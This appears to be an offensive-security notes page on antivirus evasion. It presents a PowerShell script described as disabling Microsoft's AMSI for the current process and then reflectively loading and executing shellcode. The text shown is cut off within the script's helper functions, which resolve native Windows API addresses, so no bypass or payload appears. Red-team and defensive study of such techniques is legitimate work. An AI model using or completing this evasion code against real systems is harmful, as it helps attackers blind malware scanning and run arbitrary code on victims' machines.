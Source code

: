 ```yaml
---
title: Antivirus evasion
tags:
  - breach
  - operations
  - antivirus
  - evasion
  - reflective
  - powershell
  - vba
  - jscript
  - javascript
  - amsi
  - wmi
---
```


## Bypassing AMSI in PowerShell

The Microsoft
[Antimalware Scan Interface (AMSI)](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
is software loaded into the context of your **PowerShell** terminal to detect if
malicious behavior or software is being executed. Fortunately for us, even with
an unprivileged user, we can modify the memory of our process to disable checks
implemented by AMSI. Below is a PowerShell script that will disable AMSI for the
current process and then reflectively load shellcode into an unmanaged memory
segment and execute it.

```powershell
function Find-Func {
    Param(
        [Parameter(Mandatory = $true)]
        [String]
        $ModuleName,

        [Parameter(Mandatory = $true)]
        [String]
        $FunctionName
    )

    $assembly = ([AppDomain]::CurrentDomain.GetAssemblies() |
            Where-Object {
                $_.GlobalAssemblyCache -and $_.Location.Split('\\')[-1].Equals('System.dll')
            }
    ).GetType('Microsoft.Win32.UnsafeNativeMethods')

    $methods = @()

    $assembly.GetMethods() | ForEach-Object { if ($_.Name -eq "GetProcAddress") { $methods += $_ } }

    return $methods[0].Invoke($null, @(($assembly.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function Get-Guid {
    return [System.Guid]::NewGuid().Guid
}

function Get-DelegateType {
    Param(
        [Parameter(Mandatory = $true)]
```